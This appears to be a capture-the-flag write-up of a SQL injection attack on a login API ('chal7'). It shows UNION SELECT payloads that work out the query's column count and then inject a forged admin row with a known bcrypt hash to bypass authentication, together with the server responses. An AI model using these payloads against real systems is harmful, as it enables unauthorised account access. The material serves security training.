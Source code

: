 response: target: chal7.-.primary: vttablet: rpc error: code = InvalidArgument desc = The used SELECT statements have a different number of columns (errno 1222) (sqlstate 21000) (CallerID: an0lhxqhrn61aphfq1dy): Sql: "select * from users_tbl where userName = :userName 

<br />



```
POST /api/login

[
  { "value": "' UNION SELECT null, null, null,null,null,null #" },
  { "value": "pass" }
]
```

response: Illegal arguments: string, object. So the number of columns is 6.

<br />

```
POST /api/login

[
  {
    "value": "' UNION SELECT 'a', 'a', 'a','a','a','a' #"
  },
  {
    "value": "pass"
  }
]
```

response: Invalid username or password



<br />

get the bcrypt hash of the "pass" with salt 10 using https://bcrypt.online/

```
POST /api/login

[
  {
    "value": "' UNION SELECT 1,'karim','$2y$10$0U1NvVUPKE9iKUXibTI6tumgzGz7MW/fntx/FvaoMI7eXNxs2DCB2', 'admin','Gabriel','Tensey' -- -"
  },
  {
    "value": "pass"
  }
]
```

response:

```
[
  {
    "id": 1,
    "userName": "karim",
    "password": "$2y$10$0U1NvVUPKE9iKUXibTI6tumgzGz7MW/fntx/FvaoMI7eXNxs2DCB2",
    "type": "admin",
    "lastName": "Gabriel",
    "firstName": "Tensey"
  }
]
```
